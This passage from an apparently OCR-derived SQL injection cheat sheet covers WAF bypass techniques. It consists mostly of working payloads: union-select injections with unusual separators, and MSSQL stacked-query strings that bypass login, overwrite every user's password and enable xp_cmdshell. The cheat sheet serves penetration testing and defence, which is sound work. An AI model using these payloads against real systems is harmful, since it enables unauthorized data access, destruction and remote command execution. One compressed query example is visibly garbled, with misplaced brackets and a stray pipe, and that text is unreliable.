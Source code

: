 ````

https://vuln.app/getItem?id=0xunion+select+null,@@version,null--
```
```
A period instead of a whitespace between FROM and a column name:

```
https://vuln.app/getItem?id=1+union+select+null,@@version,null+from.users--
```
```
\N separator between SELECT and a throwaway column:

```
https://vuln.app/getItem?id=0xunion+select\Nnull,@@version,null+from+users--
```
```
### WAF Bypass with unorthodox stacked queries

According to [[https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/|**this blog post**]] it's possible to stack queries in MSSQL without using ";":

```sql
SELECT 'a' SELECT 'b'
```
```
So for example, multiple queries such as:

```sql
use [tempdb]
create table [test] ([id] int)
insert [test] values(1)
select [id] from [test]
drop table[test]
```
```
Can be reduced to:

```sql
use[tempdb]create/**/table[[[id]int)insert[test]values(1|test]]select[id]from[test]drop/**/table[test]
```
```
Therefore it could be possible to bypass different WAFs that doesn't consider this form of stacking queries. For example:

```
# Adding a useless exec() at the end and making the WAF think this isn't a valid querie
admina'union select 1,'admin','testtest123'exec('select 1')--
## This will be:
SELECT id, username, password FROM users WHERE username = 'admina'union select 1,'admin','testtest123'
exec('select 1')--'

# Using weirdly built queries
admin'exec('update[users]set[password]=''a''')--
## This will be:
SELECT id, username, password FROM users WHERE username = 'admin'
exec('update[users]set[password]=''a''')--'

# Or enabling xp_cmdshell
admin'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
## This will be
select * from users where username = ' admin'
exec('sp_configure''show advanced option'',''1''reconfigure')
````